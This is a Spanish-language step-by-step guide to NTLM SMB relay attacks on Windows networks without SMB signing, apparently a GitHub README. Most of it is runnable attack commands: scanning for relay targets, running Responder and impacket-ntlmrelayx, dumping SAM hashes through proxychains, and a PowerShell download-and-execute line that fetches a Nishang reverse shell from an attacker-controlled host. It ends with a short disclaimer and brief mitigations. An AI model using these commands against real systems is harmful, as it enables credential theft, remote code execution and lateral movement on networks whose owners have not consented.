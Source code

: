# NTLM SMB Relay Attack Guide


## 📌 Descripción
Guía técnica para realizar ataques de **NTLM Relay** contra sistemas Windows con SMB signing deshabilitado, permitiendo ejecución remota de comandos, robo de hashes y movimiento lateral.

## ⚠️ Requisitos Legales
- **Solo para pentesting autorizado o entornos de laboratorio**.  
- Nunca atacar sistemas sin permiso explícito.

---

## 🔧 Herramientas Necesarias
- **Kali Linux** (o distribución con herramientas preinstaladas).  
- **Impacket**: `sudo apt install impacket`.  
- **CrackMapExec**: `sudo apt install crackmapexec`.  
- **Responder**: `sudo apt install responder`.  

---

## 🚀 Pasos del Ataque

### 1️⃣ Identificar sistemas vulnerables
```bash
crackmapexec smb 192.168.1.0/24 --gen-relay-list targets.txt
````
   
Salida esperada:
SMB   192.168.1.10    SIGNING:Not enforced  # ¡Vulnerable!

2️⃣ Configurar targets.txt
plaintext
Copy

smb://192.168.1.10
smb://192.168.1.20

3️⃣ Desactivar SMB/HTTP en Responder
 ```bash
/etc/responder/Responder.conf:
````
SMB = Off
HTTP = Off

4️⃣ Iniciar NTLM Relay
````bash
impacket-ntlmrelayx -smb2support -tf targets.txt -socks -debug
````
5️⃣ Iniciar Responder (en otra terminal)
```bash
sudo responder -I eth0
````

6️⃣ Explotación con ProxyChains

Editar /etc/proxychains4.conf: socks4 127.0.0.1 1080

Ejemplo: Robar hashes SAM
````bash
proxychains4 crackmapexec smb 192.168.1.10 -u '' -p '' --sam
````

Ejemplo: Reverse Shell

Preparar shell.ps1 (ejemplo de Nishang):

 ```bash
 IEX(New-Object Net.WebClient).DownloadString("http://192.168.1.100:8000/Invoke-PowerShellTcp.ps1");Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.100 -Port 443
````
Servir el script:
````bash  
python3 -m http.server 8000
````
Ejecutar relay:

````bash
impacket-ntlmrelayx -smb2support -tf targets.txt -c "powershell -c \"IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.100:8000/shell.ps1')\""
````

🛡️ Mitigaciones

Habilitar SMB Signing en GPO:

Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > Microsoft network server: Digitally sign communications (always).

Deshabilitar NTLM y usar Kerberos.

Segmentar redes para limitar tráfico SMB.

